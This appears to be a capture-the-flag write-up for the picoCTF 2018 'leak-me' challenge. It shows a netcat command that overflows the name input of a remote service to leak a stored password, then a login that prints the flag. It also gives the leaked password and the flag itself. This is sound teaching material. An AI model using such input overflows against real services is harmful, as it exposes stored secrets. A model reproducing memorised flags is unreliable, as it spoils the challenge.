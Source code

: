 # leak-me
Points: 200

## Category
Binary Exploitation

## Question
>Can you authenticate to this [service](files/auth) and get the flag? Connect with `nc 2018shell1.picoctf.com 31045`. [Source](files/auth.c). 

### Hint
>Are all the system calls being used safely?
>
>Some people can have reallllllly long names you know..

## Solution
By spamming the service with multiple characters, the password from _password.txt_ gets leaked.

```
$ python -c "print 'A' * 300" | nc 2018shell1.picoctf.com 31045
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_d98e8d

Incorrect Password!
```

Now we can enter in a name and the password obtained.

```
$ nc 2018shell1.picoctf.com 31045
What is your name?
Platy
Hello Platy,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}`
